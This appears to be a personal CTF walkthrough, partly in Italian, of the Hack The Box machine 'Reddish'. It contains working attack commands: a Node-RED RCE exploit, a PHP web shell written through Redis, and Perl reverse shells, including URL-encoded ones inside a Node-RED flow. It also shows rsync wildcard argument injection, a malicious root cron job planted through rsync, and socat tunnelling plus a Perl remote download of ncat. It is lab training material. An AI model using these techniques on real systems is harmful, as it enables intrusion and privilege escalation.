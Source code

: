 #+TITLE: HTB - Reddish

* Enumeration
** nmap
*** leo@kali:~/repos/reddish$ nmap -sC -sV reddish
  #+begin_example

Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-27 05:28 CET
Nmap scan report for reddish (10.129.180.246)
Host is up (0.050s latency).
All 1000 scanned ports on reddish (10.129.180.246) are closed

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.51 seconds

  #+end_example
*** leo@kali:~/repos/reddish$ nmap -p- reddish
  #+begin_example

Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-27 05:28 CET
Nmap scan report for reddish (10.129.180.246)
Host is up (0.051s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
1880/tcp open  vsat-control

Nmap done: 1 IP address (1 host up) scanned in 16.01 seconds

  #+end_example
*** leo@kali:~/repos/reddish$ nmap -sC -sV -p 1880 reddish
  #+begin_example

Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-27 05:29 CET
Nmap scan report for reddish (10.129.180.246)
Host is up (0.052s latency).

PORT     STATE SERVICE VERSION
1880/tcp open  http    Node.js Express framework
|_http-title: Error

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.07 seconds

  #+end_example

** curl
*** curl -X POST http://reddish:1880
    
    #+begin_example
{"id":"e72c52ec2ba93670b5b9fcc018afcdff","ip":"::ffff:10.10.14.7","path":"/red/{id}"}    
    #+end_example

** RCE on NODE-red
   https://quentinkaiser.be/pentesting/2018/09/07/node-red-rce/
   
   #+begin_src sh
curl -L https://gist.githubusercontent.com/QKaiser/79459c3cb5ea6e658701c7d203a8c297/raw/8966e4ee07400f16b92737161ca8df3cbfa37f91/noderedsh.py  > noderedsh.py
   #+end_src
   
   Devo modificare la funzione ~exploit()~ con il seguente codice
   rispetto al seguente ~diff~

   diff original_noderedsh.py modified_noderesh.py 
   
   #+begin_example
252,256c252,256
<                     messages = json.loads(response)
<                     for message in messages:
<                         if "topic" in message and message["topic"] == "debug":
<                             output = message["data"]["msg"].strip()
<                             break
---
>                     message = json.loads(response)
> 
>                     if "data" in message and message["topic"] == "debug":
>                         output = message["data"]["msg"].strip()
>    
   #+end_example
   
   #+begin_src sh
python3 noderedsh.py http://reddish:1880/red/e72c52ec2ba93670b5b9fcc018afcdff
> id
   #+end_src
   
* PrivEsc
** Network Structure

*** 172.19.0.1/16
   #+begin_example
172.19.0.1 --> router (macchina host/processo docker)

172.19.0.4 --> nodered (docker #1)

172.19.0.2 --> redis (docker #2)
  nome dominio: reddish_composition_redis_1.reddish_composition_internal-network
  porta 6379 aperta
   
172.19.0.3 --> www (docker #3)
  nome dominio: reddish_composition_www_1.reddish_composition_internal-network
  port 80 aperta
   #+end_example

*** 172.20.0.1/16
    
    #+begin_example
172.20.0.2 --> backup (docker #4)
  nome dominio: reddish_composition_backup_1.reddish_composition_internal-network-2
  porta 873 aperta
    #+end_example    

** Docker #1 (NODE-red)
*** ip a
    #+begin_example
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
11: eth0@if12: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
17: eth1@if18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.4/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever    
    #+end_example
** Docker #2 (Redis)
   
   #+begin_src sh
./ncat 172.19.0.2 6379

set cmd "<?php echo system($_REQUEST['cmd']) ?>"
config set dbfilename "test.php"
config set dir "/var/www/html/"
save
   #+end_src

** Docker #3 (www)
   Per accedere al docker ~www~ possiamo utilizzare ~NODE-red~ con il
   seguente flusso:

   - *input http node*

   - *http request node*
     
     #+begin_example
http://reddish_composition_www_1.reddish_composition_internal-network/test.php?cmd=perl%20-e%20%27use%20Socket%3B%24i%3D%22172.19.0.4%22%3B%24p%3D4321%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh%20-i%22%29%3B%7D%3B%27     
     #+end_example

   - *http output node*

   Possiamo direttamente importante il seguente flusso
   
   #+begin_src js
[
  {
    "id": "7fc6c61d.3449a8",
    "type": "http in",
    "z": "32468df0.73c4e2",
    "name": "",
    "url": "/hello",
    "method": "get",
    "upload": false,
    "swaggerDoc": "",
    "x": 350,
    "y": 260,
    "wires": [
      [
        "8107a55.15eb558"
      ]
    ]
  },
  {
    "id": "19a1e8bc.974347",
    "type": "http response",
    "z": "32468df0.73c4e2",
    "name": "",
    "statusCode": "",
    "headers": {
    },
    "x": 917,
    "y": 267,
    "wires": []
  },
  {
    "id": "8107a55.15eb558",
    "type": "http request",
    "z": "32468df0.73c4e2",
    "name": "",
    "method": "GET",
    "ret": "txt",
    "url": "http://reddish_composition_www_1.reddish_composition_internal-network/test.php?cmd=perl%20-e%20%27use%20Socket%3B%24i%3D%22172.19.0.4%22%3B%24p%3D4321%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh%20-i%22%29%3B%7D%3B%27",
    "tls": "",
    "x": 630,
    "y": 440,
    "wires": [
      [
        "19a1e8bc.974347"
      ]
    ]
  }
]   
   #+end_src

** Pivoting from Docker #1 to Docker #3 
   
   Per passare dal docker ~nodered~ al docker ~www~ devo:

   1. Entrare in ~redis~ da ~nodered~ e salvare il file malevolo ~test.php~
      
      #+begin_src sh
./ncat 172.19.0.2 6379

set cmd "<?php echo system($_REQUEST['cmd']) ?>"
config set dbfilename "test.php"
config set dir "/var/www/html/"
save      
      #+end_src

   2. Mettermi in ascolto su ~nodered~ 

      #+begin_src sh
./ncat -lvnp 4321      
      #+end_src
      
   3. Definire il flusso per accedere al web server
      
   4. Andare all'URL definito
      
      #+begin_example
http://reddish:1880/api/e72c52ec2ba93670b5b9fcc018afcdff/hello      
      #+end_example
** PrivEsc on Docker #3
   Andando in ~/backup/~ troviamo lo script ~backup.sh~ 

   #+begin_src sh
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b   
   #+end_src

   L'idea è quella di creare in
   
   #+begin_example
   /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
   #+end_example

   due file:

   1. Il primo file sarà chiamato '-e sh test.rdb' e può contenere
      qualsiasi cosa.
      
      #+begin_src sh
echo "yo" > '-e sh test.rdb';
      #+end_src

   2. Il secondo file sarà chiamato 'test.rdb' e conterrà il codice di
      una reverse shell in PERL.

   #+begin_src sh
echo "#/bin/bash \n perl -e 'use Socket;\$i=\"172.19.0.4\";\$p=4321;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in(\$p,inet_aton(\$i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'" > test.rdb   
   #+end_src

   Poi ci mettiamo in ascolto su ~nodered~ con ~ncat~ e otteniamo una
   shell da root.
   
   #+begin_src sh
./ncat -lvnp 4321   
   #+end_src

** Docker #4 (backup)

   Dal docker #3 abbiamo accesso ad una nuova rete. 

   #+begin_src sh

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
13: eth0@if14: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.3/16 brd 172.19.255.255 scope global eth0
       valid_lft forever preferred_lft forever
17: eth1@if18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:14:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.20.0.3/16 brd 172.20.255.255 scope global eth1
       valid_lft forever preferred_lft forever   
   #+end_src

   Tramite ~ping -c 1 backup~ vediamo l'indirizzo IP di bakcup, che è ~172.20.0.2~
   
   ------------------

*** rsync usage

   Per vedere i file nella macchina ~backup~ possiamo utilizzare ~rsync~

   rsync -v rsync://backup:873/src/<PATH>

   #+begin_example
# rsync -v rsync://backup:873/src/
receiving file list ... done
drwxr-xr-x          4,096 2018/07/15 17:42:39 .
-rwxr-xr-x              0 2018/05/04 21:01:30 .dockerenv
-rwxr-xr-x            100 2018/05/04 19:55:07 docker-entrypoint.sh
drwxr-xr-x          4,096 2018/07/15 17:42:41 backup
drwxr-xr-x          4,096 2018/07/15 17:42:39 bin
drwxr-xr-x          4,096 2018/07/15 17:42:38 boot
drwxr-xr-x          4,096 2018/07/15 17:42:39 data
drwxr-xr-x          3,640 2021/12/27 05:47:14 dev
drwxr-xr-x          4,096 2018/07/15 17:42:39 etc
drwxr-xr-x          4,096 2018/07/15 17:42:38 home
drwxr-xr-x          4,096 2018/07/15 17:42:39 lib
drwxr-xr-x          4,096 2018/07/15 17:42:38 lib64
drwxr-xr-x          4,096 2018/07/15 17:42:38 media
drwxr-xr-x          4,096 2018/07/15 17:42:38 mnt
drwxr-xr-x          4,096 2018/07/15 17:42:38 opt
dr-xr-xr-x              0 2021/12/27 05:47:14 proc
drwxr-xr-x          4,096 2018/07/15 17:42:39 rdb
drwx------          4,096 2018/07/15 17:42:38 root
drwxr-xr-x          4,096 2021/12/27 05:47:15 run
drwxr-xr-x          4,096 2018/07/15 17:42:38 sbin
drwxr-xr-x          4,096 2018/07/15 17:42:38 srv
dr-xr-xr-x              0 2021/12/27 18:01:11 sys
drwxrwxrwt          4,096 2021/12/27 18:22:01 tmp
drwxr-xr-x          4,096 2018/07/15 17:42:39 usr
drwxr-xr-x          4,096 2018/07/15 17:42:39 var
   
   #+end_example

*** docker-entrypoint.sh
    
    #+begin_src sh
#!/bin/bash

set -ex

service cron start

exec rsync --no-detach --daemon --config /etc/rsyncd.conf    
    #+end_src
** Pivoting from Docker #3 to Docker #4
   L'idea è quella di creare un ~cronjob~ malevolo e di trasferirlo
   nella macchina ~backup~ in modo che sia eseguito tramite ~rsync~.
   
   #+begin_src sh
# comandi su www (docker #3)

cd /tmp
echo "* * * * * root perl -e 'use Socket;\$i=\"172.20.0.3\";\$p=9000;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in(\$p,inet_aton(\$i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'" > test;

rsync -v test rsync://backup:873/src/etc/cron.d/test

./ncat -lvnp 9000
   #+end_src

   --------------
   
   Prima di metterci in ascolto con ncat sulla macchina ~www~ dobbiamo
   trasferire ~ncat~ nella macchina ~www~. Per fare questo possiamo creare
   un tunnel da ~NODE-red~ al nostro box ~kali~ tramite ~socat~ con il
   seguente comando, che deve essere eseguito su ~nodered~
   
   #+begin_src sh
# comandi su nodered (docker #1)

# assumo di aver scaricato socat nella macchina nodered
./socat TCP4-LISTEN:3334,fork TCP4:10.10.14.7:1337 &   
   #+end_src
   
   Una volta fatto questo possiamo scaricare ncat su www con il
   seguente comando, che deve essere eseguito su www

   #+begin_src sh
# comandi su www (docker #3)
cd /tmp
perl -e 'use File::Fetch;$url="http://172.19.0.4:3334/ncat";$ff=File::Fetch->new(uri => $url);$file=$ff->fetch() or die $ff->error;'
   #+end_src

   ----------------
   
   #+begin_example
rsync -v rsync://backup:873/src/etc/cron.d/

rsync -v test rsync://backup:873/src/etc/cron.d/test
   #+end_example
** PrivEsc on Docker #4
   
   #+begin_src sh
ls /dev/sd*
mount /dev/sda2 /mnt   
   #+end_src
